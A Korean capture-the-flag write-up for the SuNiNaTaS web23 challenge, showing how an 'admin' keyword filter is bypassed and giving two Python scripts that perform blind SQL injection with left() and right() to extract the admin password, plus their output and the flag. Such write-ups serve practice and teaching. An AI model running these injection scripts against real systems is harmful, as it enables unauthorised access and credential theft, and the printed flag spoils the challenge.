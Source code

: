 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-01-03-02-35-39.png)


# **Write-Up**

순서를 이용하여 admin이라는 글자를 우회하고, OK admin이라는 글자를 확인할 수 있다.

![](images/2022-01-03-02-35-56.png)

그렇다면, admin left함수를 이용하여 admin의 pw를 알아내자

```python
import urllib
import urllib.request
import sys

ascii_set = ''.join([chr(i) for i in range(33,127)])
left_flag = ''

while True:
    old_len = len(left_flag)
    for a in ascii_set:
        id = '%27or+left%28pw%2C{}%29%3D%27{}%27--'.format(len(left_flag)+1, left_flag+a)
        pw = '123'
        url = 'http://suninatas.com/challenge/web23/web23.asp?id='+id+'&pw='+pw
        req = urllib.request.Request(url=url)
        res = urllib.request.urlopen(req).read().decode()
        if 'blue>admin<' in res:
            left_flag += a
            break
    if old_len == len(left_flag): break
print('left ' + left_flag)

[Output]
left V3RYHARDSQ
```

하지만 로그인되지 않는다. right함수를 이용하여 오른쪽부터 알아낸다.

```python
right_flag = ''
while True:
    old_len = len(right_flag)
    for a in ascii_set:
        id = '%27or+right%28pw%2C{}%29%3D%27{}%27--'.format(len(right_flag)+1, a+right_flag)
        pw = '123'
        url = 'http://suninatas.com/challenge/web23/web23.asp?id='+id+'&pw='+pw
        req = urllib.request.Request(url=url)
        res = urllib.request.urlopen(req).read().decode()
        if 'blue>admin<' in res:
            right_flag = a + right_flag
            break
    if old_len == len(right_flag): break
print('right ' + right_flag.lower())

[Output]
right YHARDSQLI
```


# **FLAG**

**v3ryhardsqli**